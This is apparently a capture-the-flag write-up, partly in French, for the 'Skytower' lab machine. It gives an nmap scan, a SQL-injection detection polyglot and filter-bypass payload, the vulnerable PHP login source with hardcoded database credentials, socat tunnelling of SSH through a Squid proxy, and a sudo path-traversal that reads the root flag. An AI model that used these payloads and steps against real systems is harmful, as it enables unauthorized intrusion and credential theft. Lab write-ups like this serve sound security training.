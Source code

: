 # Skytower


Skytower is an intermediate level machine

What I learned:
+ SQLi simple filter
+ HTTP Proxying for ssh
+ ssh commands


## In brief

- Detect SQLi with ' or 5s delay polyglot
- Exploit SQLi with || and # 


## Nmap

````
nmap 192.168.56.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 06:00 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
````

## 80 : Login/password  SQLi

Detecter la sqli avec ' ou un polyglot
````
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
````

On devine que "SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT" sont filtrés
On utilise || à la place du OR 
````
a'   || 1=1;  #
````

On obtinet un login/pawwd ssh
Se logguer en ssh à travers le proxy HTTP via CONNECT  grace à socat 
Lancer une commande /bi/bash via ssh
Recupérer les access bdd dans la page php
Recupérer les credentials dans la bdd
sudo



cat /var/www/log*
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){ die('Unable to connect to database [' . $db->connect_error . ']'); }

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>






Username: john
Password: hereisjohn

socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
ssh john@locahost -p 9999
exit en fin de .bashrc 

ssh john@127.0.0.1 -p 9999 /bin/bash



dump la bdd pour trouver les pswd de xx et sara 



sara même blague du exit ds .bashrc 





$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ sudo /bin/ls /accounts/../../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower



